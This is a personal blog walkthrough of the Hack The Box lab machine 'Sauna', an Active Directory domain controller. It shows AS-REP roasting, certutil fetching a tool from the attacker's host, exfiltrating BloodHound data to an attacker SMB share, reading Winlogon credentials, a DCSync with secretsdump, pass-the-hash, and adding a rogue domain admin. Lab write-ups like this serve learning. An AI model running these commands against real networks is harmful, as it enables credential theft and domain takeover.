






+++
date = '2026-04-12'
draft = false
title = 'HTB - Sauna'
toc = true
+++

## Introduction

If you’re reading this, hello again! I finished up Hack the Box’s 
_Sauna_. This one went a lot quicker than I had anticipated. As I mentioned in my Forest walkthrough, these are meant to be a reference for future me. What I didn’t know was that it was going to come into play so quickly. Let’s jump in.

## Enumeration

Again, just like I do for everything, I start with my Nmap scan.

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-07 07:52 CDT
Nmap scan report for 10.129.95.180
Host is up (0.030s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-07 19:54:10Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m51s
| smb2-time: 
|   date: 2026-04-07T19:55:03
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

Analyzing the scan, I notice quite a few similarities to the Forest box. It is a domain controller, has HTTP, LDAP and WinRM open. At this point, I’m thinking that this could be a very similar setup to Forest.

## HTTP + AS-REP Roast

Let’s start with HTTP. I opened my browser and navigated to the webpage. Right off the bat, I am presented with Egotistical Bank’s homepage. Knowing that this is an actual webpage, I start DirBuster to enumerate available paths. DirBuster is a great tool to use when it comes to HTTP. It will take a wordlist and run through the URL and see if any pages exist. If it comes back with an HTTP 200, 301 or 403, it will report. HTTP 200 means that the page exists and is accessible. HTTP 301 is a redirect. This means that it will redirect you to a different page. 403 is an indication that you don’t have permission to view that page.

The way I approach DirBuster is to launch it with the & at the end of the command:

```bash
dirbuster&
```

The & allows it to open from the terminal but still allow other commands to run. I start with the DirBuster medium list and let it run. I select the “go faster” option. Since I know this is IIS, I select asp and aspx for file extensions. If this were Linux, I would leave it as PHP.



While DirBuster is running, I’m analyzing the web site itself. I look at blogs and see a “jenny joy” that has posted. I make note of that as a potential user. I then see the “About” page. Looking through that, I see a list of employees. I created a txt file with different combinations their names. For example, first initial+last name, first name+last name, etc… After creating a list of potential usernames, I attempted AS-REP roasting. I followed the same path as I did in Forest, so I won’t go into that detail. After going through the AS-REP roasting, I was successful and obtained an AS-REP hash for fsmith. From there, I was able to crack the password using Hashcat. Again, it was the same process as Forest.




## Evil-WinRM + SharpHound

With valid credentials, I established a foothold using Evil-WinRM. While navigating through the machine, an account stood out: svc-loanmanager. I decided to focus on that later.

I copied SharpHound over to the remote machine. I first navigated to where SharpHound is located and then started up a simple HTTP server. This allows me to copy the file from Kali to the remote machine. The IP of 10.10.15.101 is the IP of my machine.

On Kali

```bash
cd /usr/share/sharphound
python3 -m http.server 80
```

On the DC
```bash
certutil -urlcache -f http://10.10.15.101/SharpHound sharp.exe
```

This uses the built-in Windows command to download the file from my Kali machine. Once it has been downloaded, I simply run SharpHound. SharpHound gathers Active Directory data for analysis in BloodHound.

```bash
.\sharp.exe
```

Once I have the data, I copy it back to my machine for analysis in BloodHound. The easiest way I’ve found to copy from the remote machine to my attacking machine is to host an SMB server on my machine and copy that way. I prefer using SMB because it is typically faster and more reliable than HTTP for transferring files.

On Kali

```bash
impacket-smbserver share . -smb2support
```

On the DC
```bash
copy 20260410162326_BloodHound.zip \\10.10.15.101\share\
```

Now that I have the data, I imported the data into BloodHound.

## BloodHound

Again, I’m slowly learning the nuances of BloodHound. I analyzed the data I had for the fsmith account. It showed PSRemote as a potential escalation path. After looking into it, it wasn’t going to provide me any access that I didn’t already have by Evil-WinRM. As I mentioned earlier, I noticed that svc-loanmanager account. I investigated that account and noticed it had DCSync permissions already. This was the lightbulb moment. If I could compromise that account, I could perform a DCSync. DCSync allows for data replication from the domain controller, if the user has permissions to do so. When it syncs, it relays users and password hashes. I now have my next target.


## Stored Passwords + Privilege Escalation

I went through my Windows Privilege Escalation notes to see what paths I might have available to me. I looked at user permissions and didn’t have anything that I could readily abuse. Continuing through my notes, I started to look for passwords. Initially, I used a simple findstr command to see if I could get anything to return.

```bash
findstr /si password *.txt
```

While that was running, I continued through my notes. I came across a registry query command that looks in the WinLogon section for credentials. The WinLogon registry key controls elements of the Windows logon process. If auto-logon is configured for a user, the credentials could be stored in plaintext. This can then be retrieved and used. I used the following command on the DC:

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

This brought back the password for the svc-loanmanager account that I was focused on. Now that I had those credentials, I could perform a DCSync attack and gather the hashes for all users within the domain.


## Compromise + Persistence

I performed the DCSync and gathered the hashes.

```bash
impacket-secretsdump egotisticalbank/svc_loanmgr:'[PW]'@10.129.10.103
```


Now that I have the administrator hash, I used Evil-WinRM to get back into the DC as the domain admin.

```bash
evil-winrm -i 10.129.10.103 -u Administrator -H [hash]
```



I then navigated to the desktop and captured the flag. To demonstrate full domain compromise and persistence, I created a new domain administrator account. On the DC, I ran:

```bash
net user zach abcd.1234! /add
net group "Domain Admins" zach /add
```
This created an account named zach that is a domain admin. Again, I used Evil-WinRM to gain access to the DC and prove that I was a domain admin.





## Final Thoughts

Overall, the initial foothold was the same as Forest. Pattern recognition is starting to click, especially recognizing when WinRM and AS-REP roasting can be reused across similar environments. I quickly realized that WinRM and AS-REP roasting were viable paths based on patterns from previous machines. This was a fun box and I’m looking forward to continuing to improve.
